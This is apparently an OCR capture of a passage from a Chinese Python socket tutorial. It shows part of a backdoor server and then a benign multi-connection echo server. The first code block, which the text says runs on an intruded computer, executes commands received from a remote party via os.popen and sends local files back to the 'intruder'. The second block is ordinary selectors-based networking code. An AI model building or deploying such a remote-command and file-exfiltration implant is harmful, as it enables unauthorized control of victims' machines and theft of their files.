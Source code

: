 ```
        filesize = str(os.path.getsize(message))#获取文件大小
        print("文件大小为：",filesize)
        tcpCliSock.send(filesize.encode())#发送文件大小
        data = tcpCliSock.recv(self.bufferSize)  
        print("开始发送")
        f = open(message, "rb")#打开文件
        for line in f:
            tcpCliSock.send(line)#发送文件内容
        
        else:
            tcpCliSock.send(('0001'+os.popen(message).read()).encode('utf-8'))
    except:
        raise

if __name__ == '__main__':
    s = server('', 8800)
    s.start()
```
要注意，这个服务端的文件在被入侵的电脑上运行，接受指令并且传本地文件给入侵者。


## 3.3 多连接的服务端
```

import socket
import sys
import selectors#导入selectors模块

def accept_wrapper(self,sock):
    conn, addr = sock.accept()  # Should be ready to read
    print('接收客户端连接', addr)
    conn.setblocking(False) #非阻塞
    data = types.SimpleNamespace(addr=addr, inb=b'', outb=b'')#socket数据
    events = selectors.EVENT_READ | selectors.EVENT_WRITE #监听读写
    self.selector.register(conn, events, data=data)#注册客户端socket
    
    

def service_connection(self,key, mask):
    sock = key.fileobj
    data = key.data
    if mask & selectors.EVENT_READ:
        recv_data = sock.recv(1024)  # 接收数据
        if recv_data:
            data.outb += recv_data
        else:#客户端断开连接
            print('closing connection to', data.addr)
            self.selector.unregister(sock)#取消注册，防止出错
            sock.close()
    if mask & selectors.EVENT_WRITE:
        if data.outb:
            print('echoing', repr(data.outb), 'to', data.addr)
            sent = sock.send(data.outb)  
            data.outb = data.outb[sent:] #情况缓存数据



class server:
    def __init__(self,ip,port):
        self.port=port
        self.ip=ip
        self.selector  = selectors.DefaultSelector()#初始化selector

```